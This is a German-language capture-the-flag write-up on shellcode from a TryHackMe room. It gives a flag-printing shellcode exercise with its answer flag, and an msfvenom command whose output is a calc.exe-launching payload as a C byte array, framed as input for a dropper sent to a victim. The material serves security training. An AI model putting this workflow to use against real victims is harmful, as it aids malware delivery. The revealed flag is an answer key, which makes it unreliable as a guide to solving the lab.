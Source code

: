 Das Verständnis von Shellcodes und wie sie erstellt werden, ist besonders wichtig für die folgenden Aufgaben, insbesondere wenn es um die Verschlüsselung und Codierung des Shellcodes geht.

## Fragen:
Ändern Sie Ihr C-Programm, um den folgenden Shellcode auszuführen. Wie lautet das Flag?
```C
unsigned char message[] = {
  0xeb, 0x34, 0xb9, 0x00, 0x00, 0x00, 0x00, 0x5e, 0x48, 0x89, 0xf0, 0x80,
  0x34, 0x08, 0x01, 0x48, 0x83, 0xc1, 0x01, 0x48, 0x83, 0xf9, 0x19, 0x75,
  0xf2, 0xb8, 0x01, 0x00, 0x00, 0x00, 0xbf, 0x01, 0x00, 0x00, 0x00, 0xba,
  0x19, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xb8, 0x3c, 0x00, 0x00, 0x00, 0xbf,
  0x00, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xe8, 0xc7, 0xff, 0xff, 0xff, 0x55,
  0x49, 0x4c, 0x7a, 0x78, 0x31, 0x74, 0x73, 0x2c, 0x30, 0x72, 0x36, 0x2c,
  0x34, 0x69, 0x32, 0x30, 0x30, 0x62, 0x31, 0x65, 0x32, 0x7c, 0x0d, 0x0a
};
```
```
THM{y0ur-1s7-5h311c0d3}
```

# Task 5 - Erstelle Shellcode
In dieser Aufgabe setzen wir unsere Arbeit mit Shellcode fort und zeigen, wie man Shellcode mithilfe öffentlicher Tools wie dem Metasploit-Framework generiert und ausführt.

### Generieren von Shellcode mit öffentlichen Tools

Shellcode kann für ein bestimmtes Format mit einer bestimmten Programmiersprache generiert werden. Das hängt von Ihnen ab. Wenn beispielsweise Ihr Dropper, also die Haupt-EXE-Datei, den Shellcode enthält, der an ein Opfer gesendet wird und in C geschrieben ist, müssen wir einen Shellcode-Format generieren, der in C funktioniert.

Der Vorteil der Generierung von Shellcode über öffentliche Tools besteht darin, dass wir keinen individuellen Shellcode von Grund auf erstellen müssen und auch kein Experte in Assemblersprache sein müssen. Die meisten öffentlichen C2-Frameworks bieten ihren eigenen Shellcode-Generator an, der mit der C2-Plattform kompatibel ist. Natürlich ist das für uns sehr praktisch, aber der Nachteil besteht darin, dass die meisten, oder man kann sagen, alle generierten Shellcodes den Antiviren-Anbietern bekannt sind und leicht erkannt werden können.

Wir werden Msfvenom auf der AttackBox verwenden, um einen Shellcode zu generieren, der Windows-Dateien ausführt. Wir werden einen Shellcode erstellen, der die Anwendung `calc.exe` ausführt.
```shell
user@AttackBox$ msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f c
No encoder specified, outputting raw payload
Payload size: 193 bytes
Final size of c file: 835 bytes
unsigned char buf[] =
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
```